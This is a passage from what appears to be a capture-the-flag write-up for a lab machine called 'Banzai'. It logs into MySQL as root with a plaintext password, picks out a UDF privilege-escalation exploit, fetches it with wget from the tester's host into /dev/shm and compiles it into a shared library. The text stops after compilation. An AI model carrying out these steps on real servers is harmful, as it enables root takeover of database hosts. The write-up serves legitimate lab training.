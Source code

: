 <div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/var/www$<span style="color:red"> mysql -u root -p main</span>
</div>

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(11).png)

Seems like the DB 'main' is not known , let's go with no DB or mysql DB

'No DB' mysql command:

<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/var/www$<span style="color:red"> mysql -u root -p
</span>
</div>
<br>

>EscalateRaftHubris123


![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(12).png)


<div style="background-color: #1e2124; padding: 10px;">
mysql><span style="color:red"> status;</span>
</div>
<br>

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(13).png)

This version is vulnerable to UDF: [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

Here's how to exploit it : https://steflan-security.com/linux-privilege-escalation-exploiting-user-defined-functions/

Upload the exploit :

<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/var/www$<span style="color:red"> cd /dev/shm</span>
</div>

<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$<span style="color:red"> wget http://192.168.45.158:8080/1518.c</span>
</div>
<br>

 Compile it :

<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$<span style="color:red"> gcc -g -c 1518.c -o raptor_udf2.o -fPIC</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$ <span style="color:red">gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc</span>
</div>
<br>
